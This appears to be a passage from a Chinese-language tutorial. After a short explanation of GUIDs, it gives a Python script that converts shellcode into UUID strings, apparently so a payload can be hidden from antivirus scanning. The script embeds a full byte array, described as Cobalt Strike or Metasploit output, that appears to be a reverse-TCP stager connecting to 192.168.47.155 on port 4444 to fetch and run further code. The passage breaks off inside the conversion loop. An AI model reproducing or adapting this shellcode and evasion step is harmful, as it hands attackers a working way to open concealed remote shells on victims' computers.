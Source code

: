

## 什么是GUID

GUID（Globally Unique Identifier，全局唯一标识符）是一个 128 位长的数字，用于在软件中为对象分配唯一的标识符。GUID 和 UUID（Universally Unique Identifier）基本上是相同的概念，只是术语上的差别。实际上，GUID 是 UUID 的一种实现。

GUID 通常表示为 32 个十六进制数字，分为五组，用连字符分隔，形式如下：

```
550e8400-e29b-41d4-a716-446655440000
```



## shellcode转uuid

这段代码首先将包含 shellcode 的字节数组进行处理，确保长度是 16 的倍数。然后，将 shellcode 分为 16 字节的块，并为每个块创建一个 UUID，将这些 UUID 存储在一个列表中。最后，将这些 UUID 以 C 语言数组的形式输出

```python
import uuid

#使用cs或msf生成的python类型的shellcode
shellcode = b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shellcode += b"\x30\x89\xe5\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
shellcode += b"\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shellcode += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shellcode += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x8b\x48"
shellcode += b"\x18\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
shellcode += b"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shellcode += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shellcode += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shellcode += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shellcode += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shellcode += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
shellcode += b"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50"
shellcode += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shellcode += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shellcode += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shellcode += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shellcode += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shellcode += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shellcode += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shellcode += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shellcode += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shellcode += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shellcode += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x6a\x00\x53\xff\xd5"

# 用于存放shellcode转换成的uuid
uuid_list = []

# 确保 shellcode 长度是 16 的倍数，用 NOPs (\x90) 进行填充
if len(shellcode) % 16 != 0:
    shellcode += b'\x90' * (16 - len(shellcode) % 16)

# 每16字节为一组，遍历 shellcode
for i in range(0, len(shellcode), 16):
    chunk = shellcode[i:i + 16]
```